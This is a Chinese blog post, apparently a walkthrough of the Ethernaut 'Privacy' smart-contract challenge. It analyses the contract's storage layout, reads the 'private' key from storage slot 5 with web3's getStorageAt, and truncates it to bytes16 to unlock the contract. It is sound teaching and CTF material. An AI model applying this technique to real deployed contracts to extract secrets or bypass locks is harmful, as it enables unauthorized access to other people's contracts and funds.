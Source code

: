 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-10'
date: 2022-12-11 20:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'


---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十二关Privacy 思路与POC

#### 目标: 将locked变量设置为false

##### 先看代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

/*
数据存储布局分析

 bool public locked = true; -> bool类型第一个 = slot0
  uint256 public ID = block.timestamp; -> uint256类型占32字节并且第二个 = slot1
  
  根据紧凑存储原则 以下三个变量共享一个slot 
  uint8 private flattening = 10; -> 1字节 
  uint8 private denomination = 255; -> 1字节
  uint16 private awkwardness = uint16(block.timestamp); -> 2字节 
  -------------> slot2
  
  数组类型并且每个元素占32字节,连续存储
  bytes32[3] private data; -> data[0] = slot3 ,data[1] = slot4 ,data[2] = slot5
*/
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

##### poc思路:point_right:：虽然变量全部为private类型,而且密码还存在byte32数组中,但是呢如果对EVM的数据存储机制足够了解的话就能读取出byte32类型的密码

```js
//根据综上存储布局分析, 读取插槽5的数据    
await web3.eth.getStorageAt(
        "0x38Da8513ec46031966Db46718ef10E9fd6aa3Dd0",
        5,
        (err, res) => {
            console.log(res)
        }
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ByteConvert{
      
    bytes16 public  res16 ; 

    bytes32 public  res32 ; 
    //将byte32转换为byte16即是_key
    function byte32To16(bytes32 data) public{
        res16 =  bytes16(data);      
    }
     function byte16To32(bytes16 data) public{
        res32 =  bytes32(data);      
    }
}
```

##### 完成:tada:

```js
await contract.locked()
false
```

